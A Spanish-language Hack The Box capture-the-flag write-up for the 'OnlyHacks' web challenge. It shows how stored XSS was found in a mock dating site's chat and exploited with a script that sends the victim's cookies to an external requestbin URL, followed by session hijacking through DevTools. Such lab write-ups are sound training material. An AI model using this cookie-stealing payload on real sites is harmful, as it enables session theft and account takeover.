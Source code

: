 ```yaml
---
title: OnlyHacks
description: Dating and matching can be exciting especially during Valentine's, but it’s important to stay vigilant for impostors. Can you help identify possible frauds?
date: 2025-05-14
toc: true
pin: false
image:
 path: /assets/img/htb-writeup-challenges/web_logo.png
categories:
  - Hack_The_Box
  - Challenges
tags:
  - hack_the_box
  - xss
  - devtools
  - cookie_hijacking
  - web_analysis
  - vulnerability_exploitation

---
```

## Web Analysis

El sitio web simula una plataforma de citas donde es necesario registrarse y autenticarse para acceder a funcionalidades internas.

![](assets/img/htb-writeup-onlyhacks/onlyhacks1.png)
![](assets/img/htb-writeup-onlyhacks/onlyhacks2.png)

Una vez dentro, en la sección `Dashboard` se pueden aceptar matches y en la sección `Matches` se accede a un sistema de mensajería con distintos usuarios. En particular, se encuentra un chat activo con el usuario `Renata`.

![](assets/img/htb-writeup-onlyhacks/onlyhacks3.png)

Probando la funcionalidad del chat, envío el payload `<script>alert(1)</script>`. Al ser procesado y renderizado, el navegador ejecuta el alert, confirmando la presencia de una vulnerabilidad de Cross-Site Scripting.

![](assets/img/htb-writeup-onlyhacks/onlyhacks4.png)

---
## Vulnerability Exploitation

El sitio [requestbin](https://requestbin.whapi.cloud/) permite generar una URL que registra y muestra las solicitudes HTTP recibidas, útil para capturar información del cliente que interactúa con ella.

Para activar el endpoint generado, realizo una solicitud con curl.

```terminal
/home/kali/Documents/htb/challenges/onlyhacks:-$ curl -X POST -d "fizz=buzz" http://requestbin.whapi.cloud/1lxcu131
ok
```
Con esto verificado, construyo un payload XSS que envía las cookies de la víctima al endpoint generado.

```js
<script>document.location='http://requestbin.whapi.cloud/1lxcu131?c='+document.cookie</script>
```

![](assets/img/htb-writeup-onlyhacks/onlyhacks5.png)

Envío este payload por el chat con Renata y espero la solicitud desde el panel de requestbin.

![](assets/img/htb-writeup-onlyhacks/onlyhacks6.png)

Una vez capturada la sesión, tomo el valor de la cookie session y la sustituyo desde DevTools para suplantar la identidad de Renata.

![](assets/img/htb-writeup-onlyhacks/onlyhacks7.png)

Al recargar la página, accedo al panel como el usuario Renata. Desde allí, puedo ver tanto el chat conmigo como una conversación con otro usuario que contiene la flag.

![](assets/img/htb-writeup-onlyhacks/onlyhacks8.png)

> <a href="https://www.hackthebox.com/achievement/challenge/1521382/860" target="_blank">OnlyHacks Challenge from Hack The Box has been Pwned</a>
{: .prompt-tip }